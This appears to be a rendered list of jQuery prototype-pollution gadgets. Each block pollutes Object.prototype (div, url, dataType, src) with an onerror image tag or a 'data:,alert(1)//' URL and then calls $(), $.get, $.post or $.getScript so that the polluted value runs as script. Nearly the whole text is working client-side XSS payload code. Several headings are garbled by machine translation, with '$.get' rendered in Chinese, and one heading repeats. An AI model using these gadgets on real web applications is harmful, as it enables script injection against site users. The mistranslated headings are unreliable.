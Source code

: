 #### **$(html) jQuery**

```
<script>

Object.prototype.div=['1','<img src onerror=alert(1)>','1']

</script><script>

$('<div x="x"></div>')

</script>
```

#### **$。获取 jQuery**

```
<script>

Object.prototype.url = ['data:,alert(1)//'];

Object.prototype.dataType = 'script';

</script>

<script>

$.get('https://google.com/');

$.post('https://google.com/');

</script>
```

#### **美元。getScript jQuery**

```
<script>

Object.prototype.src = ['data:,alert(1)//']

</script>

<script>

$.getScript('https://google.com/')

</script>
```

#### **美元。getScript jQuery**

```
<script>

Object.prototype.url = 'data:,alert(1)//'

</script>

<script>

$.getScript('https://google.com/')

</script>
```
